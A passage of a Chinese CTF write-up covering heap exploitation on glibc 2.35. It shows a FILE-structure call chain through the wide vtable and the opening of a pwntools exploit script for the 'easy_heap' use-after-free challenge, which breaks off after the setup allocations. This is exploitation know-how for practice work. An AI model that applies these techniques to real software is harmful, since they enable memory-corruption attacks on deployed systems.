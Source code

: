 函数的调用链如下：

```c
_IO_wfile_overflow
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

### 轩辕杯 easy_heap
2.35 UAF 只能申请大于 0x410 大小的 chunk

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# link=remote("27.25.151.26",31137)
link=process('./heap')
elf=ELF("./heap")
libc=ELF('./glibc/2.35-0ubuntu3.9_amd64/libc.so.6')

def gdb_attach():
	gdb.attach(link,"set solib-search-path ~/FocusingCTF/glibc/2.35-0ubuntu3.9_amd64/")
	pause()

def add(idx,size):
	link.recvuntil(b'choice:')
	link.sendline(b'1')
	link.recvuntil(b"index:")
	link.sendline(str(idx))
	link.recvuntil(b"size:")
	link.sendline(str(size))

def delete(idx):
	link.recvuntil(b'choice:')
	link.sendline(b'2')
	link.recvuntil(b"index:")
	link.sendline(str(idx))

def edit(idx,content):
	link.recvuntil(b'choice:')
	link.sendline(b'3')
	link.recvuntil(b"index:")
	link.sendline(str(idx))
	link.recvuntil(b"content:")
	link.send(content)

def show(idx):
	link.recvuntil(b'choice:')
	link.sendline(b'4')
	link.recvuntil(b"index:")
	link.sendline(str(idx))

def exit():
	link.recvuntil(b'choice:')
	link.sendline(b'5')

gdb_attach()
add(9, 0x4f8)
add(0, 0x510)
add(1, 0x500) 
```